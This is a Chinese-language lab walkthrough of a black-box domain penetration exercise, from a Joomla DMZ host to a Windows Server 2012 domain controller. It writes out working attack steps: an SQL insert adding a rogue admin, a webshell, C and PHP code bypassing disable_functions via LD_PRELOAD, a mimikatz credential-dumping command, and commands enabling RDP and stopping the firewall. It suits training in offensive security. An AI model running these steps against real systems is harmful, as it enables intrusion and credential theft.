




内网渗透 | 域渗透实操ATT&CK
0x01 Build Up
Goal:目标域控存在一份重要文件。
建议DMZ的web双网卡：一个桥接一个VMnet2。其他的全部是VMnet2。
VMnet2配置如上图。
看到分配成功然后互相ping一下没问题就ok了。
说明一下，是黑盒测试所以不提供网络拓扑，只给出DMZ的ip。
0x02 DMZ
0x2.1 Admin Login

可以看到Written by Joomla，探测一下目录。

这个比较有用，看看能不能远程连接一下。
看样子我们还是加一个管理员比较好,具体字段可参考官方文档或自己查看。
https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F/zh-cnINSERT INTO `am2zu_users_users`(`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)VALUES ('Administrator2', 'Railgun','d2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());INSERT INTO `am2zu_users_user_usergroup_map` (`user_id`,`group_id`)VALUES (LAST_INSERT_ID(),'8');
注意修改表前缀，执行后即可登陆：Railgun secret

0x2.2 GetShell
Extensions—>Templates，然后选择随意一个模板进入—>New File

shell:http://192.168.8.150/templates/beez3/shell.php执行不了命令，看了一下开了disable_function.
0x2.3 ByPass disable_function
1、生成含有恶意代码的动态链接程序。
2、运用putenv来设置LD_PRELOAD，优先调用我们编写的程序。
3、通过webshell触发函数。
extern char** environ;int geteuid (){const char* cmdline = "ls > /var/www/html/test.txt";int i;for (i = 0; environ[i]; ++i) {if (strstr(environ[i], "LD_PRELOAD")) {environ[i][0] = '\0';}}system(cmdline);}
#gcc -shared -fPIC libc.c -o exp.sophp:
putenv("LD_PRELOAD=/var/www/hacklibc.so");mail("admin@admin.com","","","","");
将hacklibc.so传到服务器再通过下方php代码设置LD_PRELOAD。运行后/var/www/html下就会有一个test.txt。
我们准备好链接库以及利用php，传到服务器上。
注意该exp有三个参数：
cmd—>待执行的命令
outpath—>保存命令执行输出结果的文件路径(注意，要有读写权限的路径)
sopath—>自然是我们的lib.so了。
可以看到执行命令时Ok的，但是此处不考虑提权了。

很奇怪，IP地址不对啊！
0x2.4 SSH
本想读出来passwd和shadow破一下密码，但是虽然passwd有权限但是shadow不可读。
这时候就要发挥取证的功底了哈哈，找到一个东西。
肯定是ssh嘛，登陆。
0x03 Probe Intranet
0x3.1 提权DMZ&&发现真正的web Server

目前我们分析得知上面的拓扑图，因为前面执行命令发现shell返回的IP并不是我们访问的DMZ。
所以判断真正的web放在192.168.93.120,这台web机开放apache服务，而DMZ通过Nginx反代解析到120这台机器。
上图更是验证了我们的想法。
可用脏牛提权。
看来测试的时候已经用脏牛提过了…
提权成功。
0x3.1 向内网进发
接着向内网进发，用本台DMZ当作跳板机，还是常用的两个方法：EW代理，msf。
本来想介绍一下msf怎么操作，因为之前都是只说了流程，没有具体演示，但是kali桥接出了问题，正向shell也没弹到，所以还是用ew吧。
前面已经知道ip段是192.168.93.x
0x3.2 WinServer2008 SMB
爆出来了！
上传mimikatz
使用wmiexec来执行命令
https://github.com/maaaaz/impacket-examples-windows使用proxifier来代理。
可以执行命令了，我们去抓一下密码。
但是执行完mimikatz.exe直接没反应啊，所以可能这个不能做到交互吧…
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"> password.txt上述命令为非交互情况下使用mimikatz读取密码。

注意看域，不要去用其他本地密码尝试。
若读不到：
有了域控密码，接下来就是找域控啦！
看到域是test.org
这样确定域控就是那台windows server 2012了。
0x3.4 WinServer2012 AD
开了3389，没开域控，这里有两种办法，先说第一种。
还是靠SMB执行命令强开3389
但是没打开…server2003就是Ok的，不过还是可以执行命令。
现在考虑不是3389没打开而是有防火墙,关一下试试。
3389：
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /ffirewall:
net stop mpssvc后来我去看了，3389真的开了，防火墙真的关了，我真的连不上…
第二种就是$IPC入侵了。
该种方法不能在本地运行，本地找不到域控。
0x4 结束
0x4.1 进行内网渗透的思路
边界机拿到手以后可以根据情况考虑提权，以它作为跳板(ew,msf)，然后迅速探测内网存活主机，探测操作系统以及开放端口，存不存在CVE，存不存在有缺陷的服务。对于域中的windows可以选择CVE直接打或者爆破3389或者爆破smb，拿到权限后可以使用mimikatz来读取域中的密码或执行命令，然后探测域控主机。

原创投稿作者：Railgun
作者博客：www.pwn4fun.com
本文由公众号HACK学习排版编辑整理